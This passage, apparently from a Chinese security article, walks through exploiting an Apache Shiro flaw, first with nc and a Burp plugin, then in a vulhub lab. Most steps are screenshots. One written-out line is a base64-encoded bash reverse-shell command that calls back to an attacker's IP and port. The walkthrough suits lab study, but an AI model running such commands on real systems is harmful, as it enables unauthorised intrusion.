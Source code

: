 ![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN1SBYnkLgseLyw7NywL1zPlKbT2u1MMboI9NRJuNKPBWqA0dAHngRuQw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
4.检测到漏洞，然后使用nc反弹shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN1uGdXlSZS384QwZLzmpvgGK9fB6sIoFJGkPwYoqOMiaezA8k1TVWorYg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN1BxiaHu3YNH2WZ4OQxQpiaONMXT79KBJWOm2y276ZspgMpckiasSwiaCA5A/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
5.然后监听到shell。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN1QNibDlicDUDBpc3EOabQZGzxCYKZaMn5JWxibhocPHLcicZGzMTUb9GHug/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
### 漏洞利用方式3：burp插件  
  
感谢作者（pmiaowu）提供的插件。  
  
下载地址：  
https://github.com/pmiaowu/BurpShiroPassiveScan  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN1ibo5V0WanRAiaaQiaERJnuwk0x89RTQnrDiccMeyEibkhfz3ibJXVuXziar9g/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
   
  
3  
  
**vulhub环境复现**  
##   
### 1.启动环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN11yeoP76FvD8iaDdpLarIrV671dPdnwIhCrggN3lhdp70MTymQhXLtxg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
### 2.访问主页  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN1qAcYQkKZ9LPeunBd477rwpp5iadDP0pibGZJhicgJ86sTeicbS39k9KNIw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
### 3.使用脚本进行漏洞检测  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN129sp7j2daR3L0QEILicmKluFVia7GsHN16Qysgica9GMNAm1fwOWq5nibA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
### 4.查看命令是否成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN1FSzAON7NlhAHbPSF2pjwQX37A2gVnLEHJzyCvXp63ib0twDVgxs1BTg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
4.使用命令：  
  
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMjgvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN1ZN8Sf3eyf3VqPLvujczLye8YQEOW13gNHibce0W4Cbzzkg7EhNH4uoQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
反弹shell  
### 5.执行命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6kZEXEVRkusyJtpffKjVN1AZ1D3eZHMThr9Sr9SxMnPZbgsykibqKicdtiajQFt88TpnbgKGticmkLMw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
### 6.反弹成功，拿到权限。  
  